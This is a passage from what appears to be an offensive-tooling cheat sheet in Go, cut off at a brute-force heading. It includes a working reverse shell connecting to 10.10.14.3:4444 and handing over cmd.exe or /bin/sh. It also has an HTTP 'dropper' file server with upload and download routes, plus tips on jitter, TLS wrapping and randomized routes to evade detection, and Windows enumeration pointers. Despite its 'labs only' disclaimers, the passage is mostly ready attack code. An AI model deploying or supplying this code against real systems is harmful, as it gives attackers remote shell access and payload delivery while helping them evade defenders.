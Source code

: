* Add size/time filters; respect exclude dirs; throttle I/O.

***

### VIII. 🔁 Simple Reverse Shell (Lab Demo)

> Education only; many EDRs flag interactive sockets. Prefer authorized remote admin methods in real environments.

```go
conn, err := net.Dial("tcp", "10.10.14.3:4444")
if err != nil { return }
cmd := exec.Command("cmd.exe") // or "/bin/sh"
r, w := io.Pipe()
cmd.Stdin = conn
cmd.Stdout = w
cmd.Stderr = w
go io.Copy(conn, r)
cmd.Run()
conn.Close()
```

* Add heartbeat/jitter; TLS wrap with `crypto/tls` if needed (again: labs only).

***

### IX. 🧪 HTTP File Server / Dropper (One-File)

```go
http.HandleFunc("/get", func(w http.ResponseWriter, r *http.Request) {
  http.ServeFile(w, r, "tool.bin")
})
http.HandleFunc("/put", func(w http.ResponseWriter, r *http.Request) {
  f, _ := os.CreateTemp("", "upload-*"); io.Copy(f, r.Body); f.Close(); w.Write([]byte("ok"))
})
log.Fatal(http.ListenAndServe(":8000", nil))
```

* Add basic auth; randomize routes; log requester IPs.

***

### X. 🔐 Windows Lab Helpers (Only With Permission)

* **Process list / services**: use `golang.org/x/sys/windows` for native calls.
* **Named pipes / WMI**: `StackExchange/wmi` can query classes quickly.
* **Token info**: `x/sys/windows` → `OpenProcessToken` (reading, not tampering).

_(Avoid credential dumping; keep this module clean/legal.)_

***

### XI. 🕸️ Web Hacking Helpers

**Param brute (fast):**
